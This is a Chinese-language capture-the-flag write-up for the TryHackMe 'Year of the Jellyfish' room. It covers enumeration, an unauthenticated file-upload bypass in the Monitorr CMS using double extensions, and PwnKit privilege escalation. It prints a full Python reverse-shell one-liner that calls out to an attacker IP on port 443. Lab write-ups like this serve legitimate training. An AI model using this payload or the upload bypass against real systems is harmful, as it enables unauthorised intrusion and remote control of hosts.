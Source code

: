 # Year of the Jellyfish

请注意 - 此框使用公共 IP 进行部署。想想这对你应该如何应对这一挑战意味着什么。如果您高速枚举公共 IP 地址，ISP 通常会不满意......

---

## 端口扫描

循例nmap

![在这里插入图片描述](https://img-blog.csdnimg.cn/f94026c38a1d4ba7b7c417588218cf37.png)

扫描结果中还有域名，加进hosts

![在这里插入图片描述](https://img-blog.csdnimg.cn/d680c09b182a4dd48fc63e096e7d38cc.png)

## FTP 枚举

尝试anonymous

![在这里插入图片描述](https://img-blog.csdnimg.cn/eaedc2c99d0044eca581f75e1e8ff835.png)

## Web枚举

有三个端口的http 80、443、8000、8096，80会跳转到443

443是一个宠物商店

![在这里插入图片描述](https://img-blog.csdnimg.cn/005c05a6be144ec4a9f7c2e3fdc60520.png)

通过源代码可以找到有关cms的信息

![在这里插入图片描述](https://img-blog.csdnimg.cn/b697d16236984456b6d1798f79018dd3.png)

然而通过github得知，这个cms没后台，可能是个兔子洞

访问8000端口

![在这里插入图片描述](https://img-blog.csdnimg.cn/d1512ecc6c674276a1108b4fa358ca6b.png)

当我尝试各种vhost扫描，甚至当我反应过来这是公网ip时，我尝试通过osint收集子域信息，但都无果

最后我忽略了https的证书信息，好吧，我不会在忘记了

![在这里插入图片描述](https://img-blog.csdnimg.cn/71fa1a269e004924b0baa45770047839.png)

将这些子域都添加到hosts

dev跟80端口一样，beta跟8000端口一致

monitorr

![在这里插入图片描述](https://img-blog.csdnimg.cn/1e68d6c3952e43d49b876651d9f5967c.png)

## 任意文件上传 - RCE

在底部暴露了cms项目地址和版本号

![在这里插入图片描述](https://img-blog.csdnimg.cn/e44fedf60c87408db7ccbbe5945a4793.png)

但是使用searchsploit同时发现了rce和身份验证绕过

![在这里插入图片描述](https://img-blog.csdnimg.cn/8cbe75e950a241efae30294fb97802ca.png)

然而利用貌似不成功，账户未被成功创建，原因是exp的那个url不存在，可能已经被出题人删了

![在这里插入图片描述](https://img-blog.csdnimg.cn/013e3887e1d34664bb787ead02a89af9.png)

在github上查看页面代码

![在这里插入图片描述](https://img-blog.csdnimg.cn/e96a0c67f8634d05b0d5df6de114941a.png)

还有一个未授权任意文件上传漏洞

upload.php存在缺陷且没有安全检查，只要绕过getimagesize函数即可任意文件上传

![在这里插入图片描述](https://img-blog.csdnimg.cn/0517549c513048eea415e34bd18a228d.png)

由于靶机是公网ip，这里可以利用thm的网络kali

![在这里插入图片描述](https://img-blog.csdnimg.cn/2a4bd2a45a4d4f5088db9efc2da6851f.png)

发现有后缀黑名单

![在这里插入图片描述](https://img-blog.csdnimg.cn/c61b46ce7f7c49d2bc01febbc204b6d6.png)

双重后缀可以绕过

![在这里插入图片描述](https://img-blog.csdnimg.cn/32734f79d26d4de9b3fa628222b431f2.png)

## Reverse Shell

试了几种方式反向shell，但都弹不出来，断定开了防火墙，但尝试查看iptables策略却得不到结果

根据thm红队[绕过防火墙](https://tryhackme.com/room/redteamfirewalls)的房间，我们可以尝试80、443这些端口

payload:

	python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("54.195.30.192",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' 

![在这里插入图片描述](https://img-blog.csdnimg.cn/c9e30f21fbc641f59fab9a74d4060de2.png)

getshell

flag1在www-data家目录

![在这里插入图片描述](https://img-blog.csdnimg.cn/b3b6daebbca84d5ab3a9c7dd54bee8d1.png)

## 权限提升 - CVE-2021-4034

看到是ubuntu 18.04 lts

![在这里插入图片描述](https://img-blog.csdnimg.cn/30da33ffdc2147eb8435518c9806ba73.png)

pkexec还有suid

![在这里插入图片描述](https://img-blog.csdnimg.cn/0715c6050d094d0fb31e10e4cfd9c5dc.png)

直接打pwnkit

![在这里插入图片描述](https://img-blog.csdnimg.cn/c3590522f0e540bd84b9a09aafc18c33.png)

getroot
